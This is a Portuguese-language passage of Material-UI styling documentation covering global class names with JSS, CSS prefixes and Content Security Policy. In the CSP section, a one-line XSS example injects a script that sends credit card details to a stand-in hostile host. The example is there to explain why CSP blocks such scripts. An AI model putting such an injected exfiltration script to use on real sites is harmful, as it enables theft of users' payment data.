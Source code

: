 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## Global CSS

### `jss-plugin-global`

O plugin [`jss-plugin-global`](#jss-plugins) é instalado na predefinição padrão. Você pode usá-lo para definir nomes de classes globais.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Híbrido

Você também pode combinar nomes de classe gerados pelo JSS com nomes globais.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## Prefixos CSS

O JSS usa recursos de detecção para aplicar os prefixos corretos. [Não fique surpreso](https://github.com/mui-org/material-ui/issues/9293) se você não conseguir ver um prefixo específico na versão mais recente do Chrome. Seu navegador provavelmente não precisa disso.

## Política de segurança de conteúdo (CSP)

### O que é CSP e por que é útil?

Basicamente, o CSP reduz os ataques de cross-site scripting (XSS) exigindo que os desenvolvedores incluam na whitelist as fontes de onde seus assets são recuperados. Esta lista é retornada como um cabeçalho do servidor. Por exemplo, digamos que você tenha um site hospedado em `https://example.com` o cabeçalho CSP `default-src: 'self';` permitirá todos os assets localizados em `https://example.com/*` e negar todos os outros. Se houver uma seção do seu site que é vulnerável ao XSS, onde a entrada do usuário de unescaped é exibida, um invasor pode inserir algo como:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Esta vulnerabilidade permitiria que o invasor executasse qualquer coisa. No entanto, com um cabeçalho CSP seguro, o navegador não carregará esse script.

Você pode ler mais sobre o CSP no [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### Como se implementa o CSP?

Para usar o CSP com Material-UI (e JSS), você precisa usar um nonce. Um nonce é uma string gerada aleatoriamente que é usada apenas uma vez, portanto, você precisa adicionar um middleware de servidor para gerar um em cada solicitação. JSS tem um [ótimo tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) sobre como conseguir isso com Express and React Helmet. Para um resumo básico, continue lendo.
